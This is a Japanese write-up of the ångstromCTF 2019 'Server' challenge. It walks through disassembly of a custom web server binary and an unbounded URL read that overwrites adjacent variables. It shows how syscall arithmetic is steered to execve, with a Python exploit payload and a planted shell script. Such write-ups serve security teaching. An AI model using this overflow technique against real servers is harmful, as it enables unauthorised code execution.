



// date: 2019-04-25

## ångstromCTF 2019 -「Server (180pts)」之解き方

### はじめに
2019年の4月、[NekochanNano!](https://2019.angstromctf.com/teams/3383)というチームの一員として [ångstromCTF](https://twitter.com/hashtag/angstromctf) に参加させて頂きました。最後に1540ポイントを集めることが出来て、59位で終わりました。


今回は、特に気に入った問題の「Server」の解き方を解説して行きたいと思います。

### 問題記載
```
Server - 180 points

Check out my new website, powered by my own custom web server!
```
ご丁寧に、ウェブサイトのリンクとELFバイナリが渡されます。こちらはウェブサイトのホームページです。



### 解析
早速ですが、とりあえずobjdumpに投げてみましょう。ディスアセンブルしてみたら、すぐに気づくのはlibcの無さ。このプログラムは全て、syscall以外にライブラリーを使わずに出来ているようです。

最初にいろんなsyscallを呼び出して、ソケットを保留して、バインドします。
```
401086:	48 31 c0             	xor    rax,rax
401089:	48 be 10 20 40 00 00 	movabs rsi,0x402010
401090:	00 00 00
401093:	ba 04 00 00 00       	mov    edx,0x4
401098:	0f 05                	syscall
```
それから第零syscall（０から始まるので）`read`で標準入力から４バイトを`0x402010`に読み込んで、
```
40109a:	48 ff ce             	dec    rsi
40109d:	48 ff c6             	inc    rsi
4010a0:	48 31 c0             	xor    rax,rax
4010a3:	48 31 d2             	xor    rdx,rdx
4010a6:	48 ff c2             	inc    rdx
4010a9:	0f 05                	syscall
4010ab:	80 3e 20             	cmp    BYTE PTR [rsi],0x20
4010ae:	74 02                	je     0x4010b2
4010b0:	eb eb                	jmp    0x40109d
```
`0x402010`を再利用して（さっきの４バイトを上書き）、また読み込みます。スペース文字（`0x20`）が来るまで読み込みを続けますが、`0x402010`に書き込んだバイトを数えないため、いくらも長いバイト流れを渡しても書き込んでしまいます（そこが危ないですね）。

```
4010b5:	48 be b1 28 40 00 00 	movabs rsi,0x4028b1
4010bc:	00 00 00
4010bf:	ba 00 08 00 00       	mov    edx,0x800
4010c4:	0f 05                	syscall
```
やっとスペース文字が来たら`0x4010b2`にジャンプして、今度`0x4028b1`を読み込み先としてまた「read」を行いますが、今回は読み込みサイズが`0x800`に過ぎないようにしています。

もう気づいてる方も居るかと思いますが、最初のバッファーがおそらくURLで２つ目がペイロード（HTTPヘッダーとコンテント）であるみたいです。そしてペイロードが`0x800`バイトに過ぎないように制限されてるのに、URLにはそんな制限がなく、`0x800`バイト以上を読み込めば、直後のメモリが単に上書きされてしまいます。

さて、続きを読みましょう。
```
401135:	48 8b 3c 25 10 28 40 	mov    rdi,QWORD PTR ds:0x402810
40113c:	00
40113d:	b8 01 00 00 00       	mov    eax,0x1
401142:	48 be 20 28 40 00 00 	movabs rsi,0x402820
401149:	00 00 00
40114c:	48 8b 14 25 18 28 40 	mov    rdx,QWORD PTR ds:0x402818
401153:	00
401154:	0f 05                	syscall
```

`mov eax, 0x1`の部分から、第一syscall `write`を用意していることがわかります。この「[検索可能 Linux Syscall 目録](https://filippo.io/linux-syscall-table/)」によると、メモリから`rdi`にコピーしている値が`fd`(ファイル記述子)で、`rsi`に`buf`（出力元）、そして`rdx`で出力サイズに指定します。このスニペットをC言語に訳してみるとこのようになるでしょう:
```C
uint fd = 0; // STDOUT
char *buf = "welcome to my web server! as you can see it's incredibly fast and impossible to exploit!";
size_t count = 88;
write(fd, buf, count);
```
このコードを実行した後に、実際に出力したバイト数が`rax`レジスタに保存されます。

最後に、第三syscall「exit」を呼び出します、、、
```
401156:	48 29 d0             	sub    rax,rdx
401159:	48 83 c0 03          	add    rax,0x3
40115d:	48 31 d2             	xor    rdx,rdx
401160:	0f 05                	syscall
```
が！ちょっと待って。何を計算しているんでしょうか？まずは`rax`（出力されたバイト数）から`rdx`（出力サイズ）を引く。その結果は必ず０になるはずですね。してから結果に３を足して（`rax`＝３）、syscallを実行する。なるほど、そうやってヌル化するんだ。確か`mov eax, 0x3`よりアセンブリ命令が短い（movを使えば`0x3`なのに`0x0000000000000003`となり、命令がかなり長くなってしまうらしいです）。

### 作戦

ごめんなさい、嘘を付きました。

実は`sub rax, rdx`の結果が０でない場合もあります。もし、`rdx`がとんでもない大きい値であれば、プロセスのメモリをすべて出しても出力バイト数が合わせられないのです。すなわち引き算の効果が０でなくなります。

試して`rdx`を`0xffffffffffffffff`にしてみたら、`0x1000`バイトが出されました（`rax = 0x1000`）。

数学能力がゼロなのでちゃんと計算できないけど、適当にいろんな値を試して、`0xffffffffffffffbf`にすれば`rax`が`0x3b`（10進数では59）になることを確かめることが出来ました。ちなみに第59 syscallが任意プログラムを実行してくれる`execve`であります。

そう、`rdx`を`0xffffffffffffffbf`にすると、`execve`が呼び出されます。また「[検索可能 Linux Syscall 目録](https://filippo.io/linux-syscall-table/)」にて`execve`の引数を確認しましょう。



さて、エクスプロイトを考えましょう。上の脆弱性を利用して、任意コマンド実行または任意プログラム実行が出来るようになりました。ですが、例えばもしシェルを実行してしまえば、出力が標準出力に送信され、こちらソケット側からは見えません。ですから、サーバーの反応を観測せずに行えるエクスプロイトが必要となります。

チャレンジサーバーにアクセス出来たので、`/tmp`ディレクトリにシェルスクリプトを適当に置いて、serverからそれを実行することに決めました。こちらはスクリプトです。
```sh
#!/bin/bash

echo "フラグでしゅにゃん！(=^・・^=)"
cat flag.txt > /tmp/nekochannano/server.flag.txt
echo ""
```

そしてserverプロセスのユーザーが書き込めるためにファイル属性を設定して起きます。
```
$ cd /tmp/nekochannano
$ touch server.flag.txt
$ chmod 0666 server.flag.txt
```

エクスプロイトを書く前に、目指しているメモリの状況を図にしました。

通常に、メモリの状況がこのようになります：
```
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402010 |   00 00 00 00 00 00 00 00   | URLバッファー
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402810 |   00 00 00 00 00 00 00 00   | 出力バッファー
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402018 |   58 00 00 00 00 00 00 00   | writeサイズ
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402020 |   w  e  l  c  o  m  e       | メッセージ
| 0x402028 |   t  o     m  y     w  e    |
| 0x402030 |   b     s  e  r  v  e  r    |
| 0x402038 |   !  a  s     y  o  u       |
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
```

エクスプロイトして、このようにさせることを目指します。
```
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402010 |   61 61 61 61 61 61 61 61   | 'a' (804字)
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402810 |   28 28 40 00 00 00 00 00   | 実行ファイル名のポインタ
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402018 |   bf ff ff ff ff ff ff ff   | rdxに保存されて、raxから引かれる値
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402020 |   00 00 00 00 00 00 00 00   | rsiに保存されるargv(ヌル)
+----------+--+--+--+--+--+--+--+--+--+--+--
| 0x402028 |   /  t  m  p  /  n  e  k    | 実行するファイル
| 0x402030 |   o  c  h  a  n  n  a  n    | /tmp/nekochannano/nyan.sh
| 0x402038 |   o  /  n  y  a  n  .  s    |
| 0x402040 |   h  00                     |
| ...      |   ...                       |
+----------+--+--+--+--+--+--+--+--+--+--+--
```

よし！これで準備が出来ました！さあ早速エクスプロイトを書きましょう！

## エクスプロイト！！

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

def payload():
    # HTTP リクエストを生成する
    output = ""
    output += "a" * 0x804                        # 0x40200c~0x402810までaを書き込む
    output += "\x28\x28\x40\x00\x00\x00\x00\x00" # 0x402810 $rdi 出力バッファー
    output += "\xbf\xff\xff\xff\xff\xff\xff\xff" # 0x402818 $rdx 出力サイズ
    output += "\x00\x00\x00\x00\x00\x00\x00\x00" # 0x402820 $rsi argv
    output += "/tmp/nekochannano/nyan.sh\x00"    # 0x402828 実行されるファイル
    output += " "
    return output

print payload()
```

そして実行！



以上、[ångstromCTF](https://twitter.com/hashtag/angstromctf) 2019 之「Server」の解き方でした。
最後まで読んで頂きありがとうございました！
